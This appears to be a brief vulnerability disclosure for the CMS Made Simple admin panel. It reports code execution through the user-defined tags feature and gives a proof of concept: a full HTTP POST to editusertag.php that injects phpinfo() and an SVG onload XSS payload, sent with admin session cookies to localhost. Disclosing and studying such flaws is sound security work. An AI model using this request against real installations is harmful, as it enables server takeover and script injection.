 
## Code Execution  
In the extension module, user custom tags
The user can insert any PHP code and execute it, resulting in getshell.


### poc

parameter 'code'

   ```
   POST /cmsms/admin/editusertag.php?_sk_=9687e2d35edeb56100c&userplugin_id=3 HTTP/1.1
Host: 127.0.0.1
Content-Length: 158
Accept: */*
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: 76ebf50c96b1db28a5787356b7b6a170=76b2219abe67ede483a103746fc5293a3840b2f6%3A%3AYTo1OntzOjM6InVpZCI7aToxO3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6NzoiZWZmX3VpZCI7TjtzOjEyOiJlZmZfdXNlcm5hbWUiO047czo1OiJja3N1bSI7czo0MDoiYzg3ZmQ0YjE4NDNmYWZjNzQyOTVmNTY1MTNlNGUzYWJlZjA0OTk2NiI7fQ%3D%3D; _sk_=9687e2d35edeb56100c; u=0b08f08a7dc7e236549449d423f7db17a1be2595; CMSIC3390714ec7=a0cm17ne3buacgnn0c36l6end2; CMSSESSIDab08e15a2ef7=tdrfle5gdlfgd46lm3ufm4as60
Connection: close

_sk_=9687e2d35edeb56100c&userplugin_id=3&userplugin_name=rr&code=phpinfo()%3B&description=%3Csvg%2Fonload%3Dalert(1)%3E&code=phpinfo()%3B&run=1&apply=1&ajax=1
   ```

![](https://hexoblog-1253112764.file.myqcloud.com/cmsms-code-execution.png)

    
